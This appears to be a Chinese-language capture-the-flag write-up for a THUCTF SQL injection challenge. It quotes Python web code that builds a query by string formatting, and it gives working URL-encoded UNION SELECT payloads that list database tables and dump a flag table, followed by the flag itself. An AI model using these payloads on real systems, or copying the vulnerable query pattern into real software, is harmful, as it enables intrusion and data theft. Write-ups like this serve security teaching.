 wdSimpleSQLv1-1 100 points
================

题意
-------------

会长为了早日解决人生大计，特地嘱咐我们出题的时候注意一下，多宣传宣传他。为了响应会长的号召，我特地为团队写了一个大牛展示页面，但是还没写完，里面好像有问题？？？（好像忘记把会长的信息加到数据库了，逃，谁能帮我加进去下，不然会长会打死我的

(PS: Please submit the flag in database)

http://host:port

attachment: wdSimpleSQLv1.zip

解题步骤
-------------

首先找到注入点，位于 `modules.py` 中，关键部分代码：

```
@gen.coroutine
def get(self):
    response = {}
    user_id = yield self.user_author()
    if not user_id:
        self.set_status(401)
        self.redirect('/login')
        return
    cowid = str(self.get_argument('cowname', '')).strip()
    if cowid:
        sql = "select username, subject, blog, description from bigcows where username = '%s'" % cowid
        try:
            bigcow = self.db.query(sql)
        except Exception as e:
            response['Error'] = 'Unknown BigCow ID'
            self.render("bigcows.html", bigcows=None, error=response['Error'])
            return

        if len(bigcow) != 1:
            response['Error'] = "Every BigCow is Unique"
            self.render("bigcows.html", bigcows=None, error=response['Error'])
            return

        try:
            description = base64.b64decode(bigcow[0]['description']).split('\n')
        except Exception as e:
            response['Error'] = "BigCow's Description Error"
            self.render("bigcows.html", bigcows=None, error=response['Error'])
            return
        self.render('bigcow.html', bigcow=bigcow[0], description=description)

    try:
        bigcows = self.db.query("SELECT username, subject FROM bigcows")
    except Exception as e:
        response['Error'] = 'MySQL Error'
        self.render("bigcows.html", bigcows=None, error=response['Error'])
        return
    self.render('bigcows.html', bigcows=bigcows, error=None)

```

注意这一行：

```
sql = "select username, subject, blog, description from bigcows where username = '%s'" % cowid
```

是典型的字符串拼接，可以注入。然后观察我们获取到结果的条件：

1. 只能查到一条消息
2. description （第四项）是一个 Base64 格式编码

这里没有进行任何过滤，直接采用最常见的 `union select` 即可。

首先枚举有哪些表：

```
http://host:port/bigcow?cowname=%27union%20all%20select%20TABLE_NAME,TABLE_NAME,TABLE_NAME,TO_BASE64(DATA_LENGTH)%20from%20INFORMATION_SCHEMA.TABLES%20limit%201%20offset%2060%23
```

通过不断调整 `offset` ，找到最新的几个表中，有一个名为 `flag` 的表。简单尝试一下即可得到 `flag`：

```
http://host:port/bigcow?cowname=%27union%20all%20select%20flag,flag,flag,TO_BASE64(1)%20from%20flag%20limit%201%20offset%200%23
THUCTF{SQLi_Is_so_InterestiNg}
```